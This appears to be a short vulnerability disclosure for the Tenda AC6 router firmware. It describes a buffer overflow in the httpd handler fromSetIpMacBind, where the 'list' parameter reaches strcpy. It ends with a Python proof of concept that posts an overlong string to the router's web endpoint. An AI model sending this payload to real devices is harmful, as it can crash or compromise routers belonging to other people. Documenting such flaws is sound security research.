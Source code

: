 # buffer overflow

## Tenda_AC6

version: V15.03.06.51

## Description:

There is a buffer overflow in httpd/fromSetIpMacBind

## Source:

you may download it from : https://www.tendacn.com/download/detail-3794.html

## Analyse:


![](4.png)


get value from list, then static_list->list, finally call strcpy, cause buff overflow

but we must send bindnum between 0-33




## POC
```
url = "http://192.168.1.13/goform/fromSetIpMacBind"
payload = 'A'*0x1000 + '\n'

r = requests.post(url, data={'list': payload , 'bindnum': 1})
``` 
